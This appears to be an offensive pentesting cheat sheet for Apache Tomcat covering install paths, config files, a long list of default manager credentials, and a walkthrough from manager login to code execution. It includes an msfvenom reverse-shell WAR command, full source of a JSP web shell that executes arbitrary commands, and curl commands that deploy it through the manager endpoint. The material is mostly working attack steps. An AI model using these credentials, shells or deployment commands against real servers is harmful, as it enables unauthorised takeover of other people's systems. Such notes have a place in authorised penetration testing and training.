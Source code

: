 ```yaml
---
description: Tomcat is a web service commonly open in port 8080/tcp.
---
```


# Tomcat

## Introduction

Apache Tomcat is a free and open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies. Tomcat provides a "pure Java" HTTP web server environment in which Java code can run.

## Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass

Exists a exploit to execute remote command by uploading a `.war` file without prior authentication.

{% embed url="https://www.exploit-db.com/exploits/42966" %}

## Installation Directory

Depending the version installed or if its installed manually or using `apt`, it would be located in different places.

```
/opt/tomcat/
/opt/tomcat7/
/opt/tomcat9/
/usr/share/tomcat/
/usr/share/tomcat7/
/usr/share/tomcat9/
```

## Configuration Files

There are serveral important files to look into and take info about the server.

### server.xml

The server.xml file is Tomcat's main configuration file, and is responsible for specifying Tomcat's initial configuration on startup as well as defining the way and order in which Tomcat boots and builds. The elements of the server.xml file belong to five basic categories - Top Level Elements, Connectors, Containers, Nested Components, and Global Settings.

```
TOMCAT-HOME/conf/web.xml
```

### web.xml

The web.xml file is derived from the [Servlet](https://www.mulesoft.com/tomcat-servlet) specification, and contains information used to [deploy](https://www.mulesoft.com/tomcat-deploy) and configure the components of your web applications.

```
TOMCAT-HOME/conf/web.xml
```

### tomcat-users.xml

This last file contains the credentials and privileges of the tomcat users.

```
TOMCAT-HOME/etc/tomcat-users.xml
```

## Default credentials

SecLists have a list of default credentials in Tomcat:

```
admin:
admin:admanager
admin:admin
admin:admin
ADMIN:ADMIN
admin:adrole1
admin:adroot
admin:ads3cret
admin:adtomcat
admin:advagrant
admin:password
admin:password1
admin:Password1
admin:tomcat
admin:vagrant
both:admanager
both:admin
both:adrole1
both:adroot
both:ads3cret
both:adtomcat
both:advagrant
both:tomcat
cxsdk:kdsxc
j2deployer:j2deployer
manager:admanager
manager:admin
manager:adrole1
manager:adroot
manager:ads3cret
manager:adtomcat
manager:advagrant
manager:manager
ovwebusr:OvW*busr1
QCC:QLogic66
role1:admanager
role1:admin
role1:adrole1
role1:adroot
role1:ads3cret
role1:adtomcat
role1:advagrant
role1:role1
role1:tomcat
role:changethis
root:admanager
root:admin
root:adrole1
root:adroot
root:ads3cret
root:adtomcat
root:advagrant
root:changethis
root:owaspbwa
root:password
root:password1
root:Password1
root:r00t
root:root
root:toor
tomcat:
tomcat:admanager
tomcat:admin
tomcat:admin
tomcat:adrole1
tomcat:adroot
tomcat:ads3cret
tomcat:adtomcat
tomcat:advagrant
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:s3cret
tomcat:tomcat
xampp:xampp
server_admin:owaspbwa
admin:owaspbwa
demo:demo
```

## From Admin to Reverse Shell

If you have access to the Tomcat Web Application Manager, you are able to upload and deploy a malicious `.war` file.

### Finding the endpoint

First is important to find the endpoint.

```
/manager/text/list
/manager/list

curl -u tomcat:'password' http://localhost:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
```

### Creating a shell (.WAR)

There are serveral ways to create the war.

#### MSFVenom Reverse Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip-addr> LPORT=<port> -f war -o revshell.war
```

#### Manual Web Shell

Create a index.jsp with the following content:

```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

And run the following commands:

```
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war * 
webshell.war is created
```

### Uploading the shell

We just need to upload it and visit the path.

```
curl --upload-file webshell.war -u tomcat:'$3cureP4s5w0rd123!' http://localhost:8001/manager/text/deploy?path=/shell
OK - Deployed application at context path [/shell]
```

Finally we can visit the path:

```
http://locahost:8080/shell
```

## References

* [https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#post](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#post)
* [https://www.youtube.com/watch?v=yTHtLi9YZ2s](https://www.youtube.com/watch?v=yTHtLi9YZ2s)
